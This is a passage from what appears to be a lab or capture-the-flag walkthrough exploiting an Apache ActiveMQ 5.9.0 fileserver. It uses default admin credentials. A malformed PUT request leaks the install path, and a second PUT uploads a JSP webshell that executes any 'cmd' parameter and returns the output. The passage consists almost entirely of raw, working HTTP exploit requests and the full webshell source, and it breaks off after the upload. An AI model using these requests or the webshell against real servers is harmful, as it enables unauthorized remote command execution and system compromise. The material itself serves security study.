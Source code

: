 First, we provoke the server to tell us about a directory:

{% highlight html %}
PUT /fileserver/%80/%80 HTTP/1.1
Host: broker:8161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: Text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=pd3bx4smg2gh693h3n5amjtw
Upgrade-Insecure-Requests: 1
Content-Length: 12

dsasdsadasda
{% endhighlight %}

And the response:

{% highlight html %}
HTTP/1.1 500 /opt/apache-activemq-5.9.0/webapps/fileserver// (Not a directory)
Connection: close
Server: Jetty(7.6.9.v20130131)
{% endhighlight %}

Now we use **PUT** to create a webshell; note I typoed the filename!

{% highlight html %}
PUT /fileserver//1.jps HTTP/1.1
Host: broker:8161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Cookie: JSESSIONID=pd3bx4smg2gh693h3n5amjtw
Upgrade-Insecure-Requests: 1
Content-Length: 345

<%@ page import="java.io.*"%>
<%
	out.print("Hello</br>");
	String strcmd = request.getParameter("cmd");
	String line = null;

	Process p=Runtime.getRuntime().exec(strcmd);
	BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));

	while((line = br.readLine()) != null) {
		out.print(line + "</br>");
	}
%>
{% endhighlight %}
